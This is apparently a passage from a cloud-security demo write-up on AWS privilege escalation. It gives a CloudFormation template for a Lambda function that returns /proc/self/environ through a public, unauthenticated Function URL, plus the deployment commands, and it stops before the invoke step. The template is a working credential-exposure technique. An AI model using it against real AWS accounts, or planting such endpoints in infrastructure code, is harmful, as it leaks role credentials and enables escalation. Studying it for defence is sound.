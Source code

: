 The CloudFormation Yaml definition is the following:

```yaml
AWSTemplateFormatVersion: "2010-09-09"
Resources:
  Demo1LambdaFun:
    Type: "AWS::Lambda::Function"
    Properties:
      Handler: index.handler
      Role: arn:aws:iam::111111111111:role/demo1/lambda-runner
      Code:
        ZipFile: |
          import os
          import json


          def handler(event, context):
              return open("/proc/self/environ").read()
      Runtime: python3.9
      Timeout: 5

  runtimeLambdaUrl:
    Type: "AWS::Lambda::Url"
    Properties:
      AuthType: NONE
      TargetFunctionArn: !Ref Demo1LambdaFun

  permissionForURLInvoke:
    Type: AWS::Lambda::Permission
    Properties:
      FunctionName: !Ref Demo1LambdaFun
      FunctionUrlAuthType: "NONE"
      Action: lambda:InvokeFunctionUrl
      Principal: "*"

Outputs:
  runtimeLambdaUrl:
    Value: !GetAtt runtimeLambdaUrl.FunctionUrl
```

To deploy the Yaml file:

```bash
aws cloudformation create-stack --stack-name demo1-privesc --template-body file://create-lambda.yaml --region eu-west-1 --role arn:aws:iam::111111111111:role/demo1/service-deployer
```

Once the deploy is completed a `FunctionUrl` FQDN is available in the output of the `describe-stacks` command:

```bash
aws cloudformation describe-stacks
```

To get the role AWS credentials invoke the function:
